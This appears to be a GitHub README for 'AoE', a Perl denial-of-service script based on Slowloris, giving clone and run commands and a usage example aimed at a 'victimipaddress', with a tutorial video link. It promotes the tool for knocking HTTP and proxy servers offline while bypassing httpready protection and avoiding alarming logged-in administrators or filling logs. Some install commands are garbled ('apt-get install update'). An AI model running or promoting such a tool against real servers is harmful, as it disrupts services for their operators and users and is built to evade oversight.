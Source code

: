 # AoE
A Perl DoS Script

Area of Effect [AoE] both helps identify the timeout windows of a HTTP server or Proxy server, can bypass httpready protection and ultimately performs a fairly low bandwidth denial of service.  It has the added benefit of allowing the server to come back at any time (once the program is killed), and not spamming the logs excessively.  It also keeps the load nice and low on the target server, so other vital processes don't die unexpectedly, or cause alarm to anyone who is logged into the server for other reasons.

Credit to the Author : Laera Loris [Original Script Slowloris]

<br><b>Kali Linux/Installation</b></br>
<br>$ apt-get install update</br>
<br>$ apt-get install upgrade</br>
<br>$ apt-get install perl</br>
<br>$ git clone https://github.com/5inco/AoE.git</br>
<br>$ cd AoE</br>
<br>$ ls</br>
<br>$ perl aoe.pl -options</br>

<br><b>USAGE:</b></br>
<br>$ perl aoe.pl -options</br>
<br>$ perl aoe.pl -dns [www.websiteip.com]</br>
<br><b>EXAMPLE:</b></br>
<br>$ perl aoe.pl -dns xxx.xx.xx.xxx <----victimipaddress</br>
<br>Video Tutorial Link: https://youtu.be/f6I-RnnpIt8</br>
